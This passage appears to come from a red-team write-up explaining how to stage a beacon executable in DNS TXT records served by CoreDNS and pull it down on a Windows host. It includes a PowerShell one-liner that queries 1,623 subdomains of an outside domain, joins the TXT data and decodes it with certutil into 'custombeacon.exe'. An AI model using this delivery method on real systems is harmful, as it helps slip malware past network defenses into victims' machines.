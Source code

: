 With these points in mind we must ensure that only a single TXT record is returned for each DNS query.  Enter subdomains.  Just as we registered "dns.edu...com" as a subdomain of "edu....com", we can provide records for further subdomains (e.g. 1.dns.edu....com).  We can create as many subdomains as needed to in order to serve all of our TXT records.

Let look at our Base64'd payload:

![image](https://user-images.githubusercontent.com/91164728/160318505-d7b98905-e475-4ba2-94ae-492bc0bd3c63.png)

As previously mentioned we can stuff 255 characters into each TXT record.  Dividing 413,696/255 yields 1,623 after rounding up.  That is a lot of TXT records (and by proxy a lot of subdomains). It is a starting point however.

I wrote a Python3 script to ingest the Base64'd payload and create a zonefile:

![image](https://user-images.githubusercontent.com/91164728/160323059-431413ca-b968-4410-b657-3799a291ddf4.png)

This script will open our Base64'd payload (comp.txt) and use the "chunkstring" function (courtesy of a stack overflow post) in order to split the file up in to 255 character long chunks which we will then create TXT records with.  Note that the IP's here are fake/random and unnecessary. 

Looking at the produced zonefile we see our TXT records:

![image](https://user-images.githubusercontent.com/91164728/160323451-3527df06-36a1-484e-9f85-a3f36031b4e7.png)

Note the number on the far left hand side of each TXT record; this denotes the subdomain. 

Now that our zonefile is created we will need to copy it to our DNS server and then serve it.  I used [CoreDNS](https://github.com/coredns/coredns) for this: 

![image](https://user-images.githubusercontent.com/91164728/160324503-beaaca28-df15-4f33-b107-3c848abee162.png)

This shows that I am accepting queries for dns.edu....com on port 53.  In the Corefile I have specified the zonefile created in the previous step to serve records from. To test that our records work we will run nslookup for TXT records belonging to 1.dns.edu....com:

![image](https://user-images.githubusercontent.com/91164728/160323616-d5522549-f00a-4deb-9f51-c11d88c0ce29.png)

There is our TXT record!

## Attack!

We now need to run nslookup... 1623 times.  Less than ideal, but it's what we will do for now.  We will use this powershell one-liner in order to run nslookup for each subdomain and then select only the TXT record ($temp[5]) and then build $results as we go.  $results is then written to ./temp.txt, and finally certutil is used to decode temp.txt to custombeacon.exe.

```powershell
$results="";for($num = 1; $num -le 1623 ; $num++){$temp = nslookup -type=TXT "$num.dns.edu....com" 2> $null;$temp = $temp[5].replace("`t","").replace("`"","");$results = $results + $temp};$results > ./temp.txt;certutil -decode ./temp.txt ./custombeacon.exe
```

Upon running our command we see all of the DNS requests on our CoreDNS server:

![image](https://user-images.githubusercontent.com/91164728/160432129-1014f3a2-d8e5-4fc3-b2e4-99398900bb88.png)
